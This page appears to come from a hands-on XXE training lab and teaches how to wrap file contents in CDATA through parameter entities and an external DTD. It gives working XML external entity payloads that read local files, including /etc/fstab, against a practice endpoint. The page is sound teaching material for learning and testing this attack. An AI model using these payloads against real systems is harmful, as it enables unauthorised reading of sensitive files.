 ```yaml
---
title: "Using CDATA"
weight: 20
---
```


{{% notice note %}}
We will use the Basic XXE page (`/basic-xxe.do`) for these exercises.
{{% /notice %}}

As we saw at the end of the last exercise, sometimes the content of the file we are reading will cause XML parsing errors. These errors may prevent us from seeing the contents of the file. In this page we will learn how to get around that.

First, lets go through a quick comparison between two files, one with a `<` and one without.

Contents of `/home/vagrant/test_files/heart.txt`:

```plaintext
I <3 XXE!
```

Lets try and read the file using the XXE techniques we first learned. Here is what we will submit:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE name [
  <!ENTITY me SYSTEM "file:///home/vagrant/test_files/heart.txt">
]>

<name>&me;</name>
```

Because of the `<` found in the file we are not able to see the contents.

![](/static/img/heart_error.png)

To double-check, lets do the same for the `love.txt` file `/home/vagrant/test_files/love.txt`:

```plaintext
I love XXE!
```

Submit the following:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE name [
  <!ENTITY me SYSTEM "file:///home/vagrant/test_files/love.txt">
]>

<name>&me;</name>
```

![](/static/img/love.png)

Based on that we can say it is probable that the `<` in the `heart.txt` file is what caused the issue.

CDATA is our answer. CDATA tells the XML parser to ignore the contents within the brackets. Doing this we can avoid parsing issues with files that have characters the parser might have trouble with. A CDATA section begins with `<![CDATA[` and ends with `]]>`. Anything surrounded by those is ignored by the XML parser.

Your first instinct may be to try and do something like this:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE name [
  <!ENTITY start "<![CDATA[">
  <!ENTITY content "file:///home/vagrant/test_files/heart.txt">
  <!ENTITY end "]]>">
]>

<name>&start; &content; &end;</name>
```

This won't work because it violates General Entity rule #2 - It is not valid XML data.

What we are going to do is create four Parameter Entities and one General Entity.

1. The first Parameter Entity will be the content of the file we want to read.
2. We will then set another equal to the start of our CDATA string.
3. The third will be set to the end of the CDATA string.
3. And finally a fourth will contain the General Entity which will tie all of those together.

The General Entity will be what we are able to call in our XML document. Because of the constraints on Parameter Entities we will need to use an external dtd. Here is what the it looks like (`cdata.dtd` found here: `/home/vagrant/dtds/cdata.dtd`).

```xml
<!ENTITY % file SYSTEM "file:///home/vagrant/test_files/heart.txt">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % wrapper "<!ENTITY all '%start;%file;%end;'>">
%wrapper;
```

Now we just need to grab this dtd, execute it and use the General Entity `&all;` in our document. Submit the following:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE name [
  <!ENTITY % ext SYSTEM "http://127.0.0.1:5000/cdata.dtd">
  %ext;
]>

<name>&all;</name>
```

![](/static/img/heart.png)

Boom! We can now view files that XML would otherwise choke on. To verify we solved our initial issue, lets try and view the `/etc/fstab` file we could not view earlier. Here is the dtd (`/home/vagrant/dtds/fstab_cdata.dtd`):

```xml
<!ENTITY % file SYSTEM "file:///etc/fstab">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % wrapper "<!ENTITY all '%start;%file;%end;'>">
%wrapper;
```

What we will submit:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE name [
  <!ENTITY % ext SYSTEM "http://127.0.0.1:5000/fstab_cdata.dtd">
  %ext;
]>

<name>&all;</name>
```

![](/static/img/fstab.png)

